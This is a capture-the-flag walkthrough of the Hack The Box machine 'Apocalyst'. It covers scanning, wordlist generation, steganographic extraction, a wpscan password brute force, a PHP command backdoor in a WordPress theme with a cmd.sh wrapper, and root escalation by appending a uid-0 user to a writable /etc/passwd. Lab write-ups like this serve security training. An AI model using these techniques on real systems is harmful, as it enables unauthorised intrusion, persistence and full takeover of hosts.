

# Target
| Category          | Details                                                                   |
|-------------------|---------------------------------------------------------------------------|
| 📝 **Name**       | [Apocalyst](https://app.hackthebox.com/machines/Apocalyst)                |  
| 🏷 **Type**       | HTB Machine                                                               |
| 🖥 **OS**         | Linux                                                                     |
| 🎯 **Difficulty** | Medium                                                                    |
| 📁 **Tags**       | cewl, dictionary creation, steganography, WordPress, writable /etc/passwd |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ nmap -sS -sC -sV  $TARGET   
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-12 06:30 +0100
Nmap scan report for 10.129.6.70
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
```

#### Discover `apocalyst.htb` virtual in server response
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ curl -I http://$TARGET                                                                                           
HTTP/1.1 200 OK
Date: Thu, 12 Mar 2026 05:30:50 GMT
Server: Apache/2.4.18 (Ubuntu)
Link: <http://apocalyst.htb/?rest_route=/>; rel="https://api.w.org/"
Content-Type: text/html; charset=UTF-8
```

#### Add `apocalyst.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ echo "$TARGET apocalyst.htb" | sudo tee -a /etc/hosts
10.129.6.70 apocalyst.htb
```

#### Enumerate web application
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ feroxbuster --url http://apocalyst.htb/ -r -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --dont-extract-links 
<SNIP>
200      GET       13l       17w      157c http://apocalyst.htb/events/
200      GET       13l       17w      157c http://apocalyst.htb/info/
200      GET       13l       17w      157c http://apocalyst.htb/page/
200      GET      397l     4704w    61597c http://apocalyst.htb/
200      GET       13l       17w      157c http://apocalyst.htb/site/
200      GET       13l       17w      157c http://apocalyst.htb/header/
200      GET        0l        0w        0c http://apocalyst.htb/wp-content/
200      GET       13l       17w      157c http://apocalyst.htb/post/
200      GET       13l       17w      157c http://apocalyst.htb/text/
200      GET        0l        0w        0c http://apocalyst.htb/wp-content/themes/
200      GET       13l       17w      157c http://apocalyst.htb/book/
200      GET       16l       60w      967c http://apocalyst.htb/wp-content/uploads/
200      GET       13l       17w      157c http://apocalyst.htb/art/
200      GET       13l       17w      157c http://apocalyst.htb/start/
200      GET       13l       17w      157c http://apocalyst.htb/icon/
200      GET        0l        0w        0c http://apocalyst.htb/wp-content/plugins/
200      GET       13l       17w      157c http://apocalyst.htb/pictures/
200      GET       13l       17w      157c http://apocalyst.htb/personal/
200      GET       13l       17w      157c http://apocalyst.htb/Search/
200      GET       13l       17w      157c http://apocalyst.htb/information/
200      GET       21l      111w     2043c http://apocalyst.htb/wp-content/languages/
200      GET       13l       17w      157c http://apocalyst.htb/state/
200      GET       13l       17w      157c http://apocalyst.htb/language/
200      GET       13l       17w      157c http://apocalyst.htb/down/
200      GET       13l       17w      157c http://apocalyst.htb/blog/
200      GET       13l       17w      157c http://apocalyst.htb/main/
200      GET       13l       17w      157c http://apocalyst.htb/RSS/
200      GET       13l       17w      157c http://apocalyst.htb/term/
200      GET       13l       17w      157c http://apocalyst.htb/Blog/
200      GET       13l       17w      157c http://apocalyst.htb/org/
200      GET       13l       17w      157c http://apocalyst.htb/masthead/
200      GET       13l       17w      157c http://apocalyst.htb/time/
200      GET       13l       17w      157c http://apocalyst.htb/accounts/
200      GET       13l       17w      157c http://apocalyst.htb/name/
200      GET       13l       17w      157c http://apocalyst.htb/meta/
200      GET       13l       17w      157c http://apocalyst.htb/thanks/
200      GET       13l       17w      157c http://apocalyst.htb/platform/
200      GET       13l       17w      157c http://apocalyst.htb/power/
200      GET       13l       17w      157c http://apocalyst.htb/vision/
200      GET       13l       17w      157c http://apocalyst.htb/fire/
200      GET       13l       17w      157c http://apocalyst.htb/last/
<SNIP>
```
We can see that WordPress is running on the target. However, no vulnerable plugins were identified. One unusual observation was the presence of several random endpoints (such as `/down`, `/thanks`, and `/time`) that all returned the same page containing `image.jpg`.

#### Generate dictionary based on main page content
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ cewl http://apocalyst.htb -w apocalyst.htb.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

#### Use generated dictionary to re-enumerate web application
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ feroxbuster --url http://apocalyst.htb/ --redirects -w ./apocalyst.htb.txt -C 404 --dont-extract-links -d 1
<SNIP>
200      GET       13l       17w      157c http://apocalyst.htb/WordPress/
200      GET       13l       17w      157c http://apocalyst.htb/Blog/
200      GET       13l       17w      157c http://apocalyst.htb/site/
200      GET       13l       17w      157c http://apocalyst.htb/Book/
200      GET       13l       17w      157c http://apocalyst.htb/July/
200      GET      397l     4704w    61597c http://apocalyst.htb/
200      GET       13l       17w      157c http://apocalyst.htb/Daniel/
200      GET       13l       17w      157c http://apocalyst.htb/before/
200      GET       13l       17w      157c http://apocalyst.htb/used/
200      GET       13l       17w      157c http://apocalyst.htb/then/
<SNIP>
```
Most endpoints returns 157 bytes long HTTP response. 

#### Filter out 157 bytes long HTTP responses 
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ feroxbuster --url http://apocalyst.htb/ --redirects -w ./apocalyst.htb.txt -C 404 --dont-extract-links -d 1 -S 157
<SNIP>
200      GET       14l       20w      175c http://apocalyst.htb/Rightiousness/
<SNIP>
```
`/Rightiousness` seems to have response of different size.

#### Read `http://apocalyst.htb/Rightiousness/`
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ curl http://apocalyst.htb/Rightiousness/
<!doctype html>

<html lang="en">
<head>
  <meta charset="utf-8">

  <title>End of the world</title>
</head>

<body>
  
  <!-- needle -->
</body>
</html>
```
This page contains a `needle` (in a haystack?) comment, which suggests the presence of a steganography challenge.

#### Download `/Rightiousness/image.jpg`
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ wget -q http://apocalyst.htb/Rightiousness/image.jpg
```

#### Discover `list.txt` hidden `image.jpg`
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ stegseek image.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""

[i] Original filename: "list.txt".
[i] Extracting to "image.jpg.out".
```
The discovered file contains a list of words. When used as a dictionary in another `feroxbuster` enumeration, it did not yield any new results. Therefore, we will use it in a dictionary attack against the WordPress admin panel. Previous web browser–based enumeration revealed that the blog posts were authored by a single user, `falaraki`.

#### Conduct dictionary attack against user `falaraki` using discovered wordlist
```
wpscan --url http://apocalyst.htb --usernames falaraki --passwords image.jpg.out --max-threads 5 --no-update --no-banner
<SNIP>
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation
<SNIP>
```
The credentials `falaraki:Transclisiation` were discovered. After logging in, we observed that the user `falaraki` has administrator privileges. With these privileges, we were able to inject PHP code into one of the theme templates. 

#### Add `system()` backdoor to `404.php` template


#### Confirm backdoor in place
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ curl -s 'http://apocalyst.htb/?p=1&cmd=id' | sed '/<!DOCTYPE html>/,$d'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Prepare `cmd.sh` exploit
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ (cat <<'EOF'> cmd.sh
CMD=$(echo -n "$1 2>&1" | jq -sRr @uri) && \
curl -s "http://apocalyst.htb/?p=1&cmd=$CMD" | sed '/<!DOCTYPE html>/,$d'
EOF
) && chmod +x cmd.sh
```

#### Discover base64 encoded password for user `falaraki`
```
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ ./cmd.sh 'cat /home/falaraki/.secret' | base64 -d
Keep forgetting password so this will keep it safe!
Y0uAINtG37TiNgTH!sUzersP4ss
```

#### Use `falaraki:Y0uAINtG37TiNgTH!sUzersP4ss` credentials to access target over SSH
```                                                   
┌──(magicrc㉿perun)-[~/attack/HTB Apocalyst]
└─$ ssh falaraki@apocalyst.htb
falaraki@apocalyst.htb's password: 
<SNIP>
falaraki@apocalyst:~$ id
uid=1000(falaraki) gid=1000(falaraki) groups=1000(falaraki),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare
```

#### Capture user flag
```
falaraki@apocalyst:~$ cat /home/falaraki/user.txt 
d6a008fda5499ae29bc26bc3fbbbc843
```

### Root flag

#### Discover `/etc/passwd` is writable
A misconfiguration in the permissions of `/etc/passwd` was discovered using `linpeas`. 
```
═╣ Writable passwd file? ................ /etc/passwd is writable
```

```
falaraki@apocalyst:~$ ls -l /etc/passwd
-rw-rw-rw- 1 root root 1637 Jul 26  2017 /etc/passwd
```

#### Add 2nd `root` user to `/etc/passwd` 
```
falaraki@apocalyst:~$ echo "john:$(openssl passwd -1 password123):0:0:root:/root:/bin/bash" >> /etc/passwd
```

#### Escalate to `root` user using `john:password123` credentials
```
falaraki@apocalyst:~$ su john
Password: 
root@apocalyst:/home/falaraki# id
uid=0(root) gid=0(root) groups=0(root)
```

#### Capture root flag
```
root@apocalyst:/home/falaraki# cat /root/root.txt 
f4214da34707b3b4e15b7a79dc643d04
```
